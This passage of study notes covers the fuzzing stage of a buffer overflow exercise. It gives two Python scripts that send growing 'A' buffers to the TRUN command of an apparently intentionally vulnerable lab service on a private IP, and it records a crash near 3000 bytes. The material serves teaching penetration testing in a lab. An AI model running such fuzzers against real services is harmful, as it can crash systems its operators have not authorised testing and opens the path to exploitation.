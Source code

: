Fuzzing is mainly used for the same purpose as that of Spiking, the only difference being:
- We use Fuzzing only for One Command.
- We use Python
- We also get a Estimated Return Address of where the Application Crashes

*fuzzing.py*

```python
#!/usr/bin/python

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		payload = "TRUN /.:/" + buffer

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.137.134',9999))

		print ("[+] Sending the payload...\n" + str(len(buffer)))
		s.send((payload.encode()))
		s.close()
		sleep(1)

		buffer = buffer + "A"*100

	except:
		print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

*1.py*
```
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2500):
    try:
        print "\nSending evil buffer with %s bytes" % size
        buffer = "A" * size

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        s.connect(("192.168.137.134", 9999))
        s.send(buffer)

        s.close()

        size +=100
        time.sleep(3)

    except:
        print "\nCould not connect!"
        sys.exit()
```

We will use *fuzzing.py*

```
chmod +x fuzzing.py
./fuzzing.py
```

![[Pasted image 20231031202035.png]]

![[Pasted image 20231031202010.png]]

It crashed around 3000 Bytes!